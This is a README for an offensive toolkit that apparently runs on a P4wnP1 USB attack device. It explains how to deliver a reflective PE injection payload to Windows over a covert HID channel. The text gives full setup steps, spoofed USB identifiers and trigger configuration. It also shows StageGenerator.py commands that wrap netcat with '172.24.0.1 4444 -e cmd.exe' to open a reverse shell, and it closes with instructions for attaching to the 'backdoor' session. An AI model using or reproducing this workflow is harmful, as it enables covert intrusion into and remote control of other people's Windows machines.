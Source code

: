 # Reflective PE Injection using HID covert channel

### Description

Use a Covert RAW HID channel to deliver a payload to a windows machine and load it to memory using [powersploit "Invoke-ReflectivePEInjection"](https://powersploit.readthedocs.io/en/latest/CodeExecution/Invoke-ReflectivePEInjection/)

- The Invoke-ReflectivePEInjection.ps1 in this repository has been modified to work on Windows 10.

## Requirements

- Copy the "**Injection.sh**" script to `/usr/local/P4wnP1/scripts/`
- chmod `root@kali:/usr/local/P4wnP1/scripts# chmod 755 Injection.sh`
- Copy the "**Invoke-ReflectivePEInjection.ps1**" payload to `/usr/local/P4wnP1/legacy/`
- Copy the "**StageGenerator.py**" script to `/usr/local/P4wnP1/legacy/`
- Copy the "**Stage1.js**" to `/usr/local/P4wnP1/HIDScripts/`
- Generate Stage2 payload (netcat Reflective PE Injection) `root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py /usr/share/windows-binaries/nc.exe "172.24.0.1 4444 -e cmd.exe"`

## Configuration

**Create a USB setting template with the following settings:**

- Keyboard
- Custom HID device
- Vendor ID: `0x1d6b`
- Product ID: `0x1347`
- Manufacturer Name: `MaMe82`
- Product Name: `P4wnP1 by MaMe82`
- Serial Number: `deadbeef1337`

_If you want to use other VID/PID you will need to update the values in Stage1.js and Stage2.ps1_

**Store the template under the name "Injection"**

**Create a trigger action** that starts the bash script "Injection.sh" when USB gadget connected to host, **Store the template under the name "Injection"**

**Create a master template** with the following settings:

- TriggerActions Template: `Injection`
- USB Template: `Injection`
- WiFi Template: `startup`
- Bluetooth Template: `startup`
- Networks templates: `bteth_startup, usbeth_startup, wlan0_startup_dhcp_server`

## Execution

- Connect to the P4wnP1 A.L.O.A web interface (using the access point ip "172.24.0.1") and deploy the master template "**Injection**"
- SSH into your P4wnP1 A.L.O.A access point ip "172.24.0.1" and run the following command: `root@kali:~# screen -d -r backdoor`

## StageGenerator.py

You can use **StageGenerator.py** generate a Reflective PE Injection payload using any executable file and deliver it using the P4wnP1 raw HID covert channel.

Just make sure the **Invoke-ReflectivePEInjection.ps1** file is in the same directory as **StageGenerator.py**

### Usage:

`root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py "PE_EXECUTABLE_FILE_PATH" "EXECUTABLE_FILE_ARGUMENTS"`

Example With Arguments:

`root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py /tmp/netcat.exe "172.24.0.1 4444 -e cmd.exe"`

Example Without Arguments:

`root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py /tmp/netcat.exe ""`
